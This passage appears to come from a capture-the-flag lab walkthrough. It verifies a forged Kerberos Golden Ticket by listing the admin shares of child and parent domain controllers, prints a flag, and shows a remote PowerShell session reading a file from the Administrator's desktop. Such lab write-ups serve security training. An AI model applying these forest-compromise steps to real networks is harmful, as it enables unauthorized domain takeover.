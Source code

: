 First, we will verify that this ticket works for access to THMDC since it is a valid ticket for the Administrator user of the child domain:

```shell-session
C:\>dir \\thmdc.za.tryhackme.loc\c$
 Volume in drive \\thmdc.za.tryhackme.loc\c$ is Windows
 Volume Serial Number is 1634-22A9

 Directory of \\thmdc.za.tryhackme.loc\c$

01/04/2022  08:47 AM               103 delete-vagrant-user.ps1
04/30/2022  10:24 AM               154 dns_entries.csv
09/15/2018  08:19 AM    <DIR>          PerfLogs
03/21/2020  09:31 PM    <DIR>          Program Files
03/21/2020  09:28 PM    <DIR>          Program Files (x86)
04/27/2022  08:27 AM             1,423 thm-network-setup-dc.ps1
04/25/2022  07:13 PM    <DIR>          tmp
04/27/2022  08:22 AM    <DIR>          Users
04/25/2022  07:11 PM    <SYMLINKD>     vagrant [\\vboxsvr\vagrant]
04/27/2022  08:12 PM    <DIR>          Windows
               7 File(s)      2,356,811 bytes
               7 Dir(s)  50,913,189,888 bytes free;
```

This at least confirms that the Golden Ticket was forged for access to the child DC. However, since we specified extra SIDs, we should also now have access to the parent DC:

```shell-session
C:\>dir \\thmrootdc.tryhackme.loc\c$\
 Volume in drive \\thmrootdc.tryhackme.loc\c$ is Windows
 Volume Serial Number is 1634-22A9

 Directory of \\thmrootdc.tryhackme.loc\c$

01/04/2022  08:47 AM               103 delete-vagrant-user.ps1
09/15/2018  08:19 AM    <DIR>          PerfLogs
03/21/2020  09:31 PM    <DIR>          Program Files
03/21/2020  09:25 PM    <DIR>          Program Files (x86)
04/23/2022  09:21 AM                58 root_dns_entries.csv
04/23/2022  09:22 AM             1,432 thm-network-setup-dc.ps1
04/25/2022  05:50 PM    <DIR>          tmp
04/27/2022  07:54 AM    <DIR>          Users
04/25/2022  05:50 PM    <SYMLINKD>     vagrant [\\vboxsvr\vagrant]
04/27/2022  06:29 PM    <DIR>          Windows
               3 File(s)          1,593 bytes
               7 Dir(s)  51,105,730,560 bytes free
```

This proves that we now have fully compromised the parent domain solely by compromising one of the child domains!

After following the walkthrough we get:

```
THM{Full.EA.Compromise}
```


[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> type C:\Users\Administrator\Desktop\flag2.txt
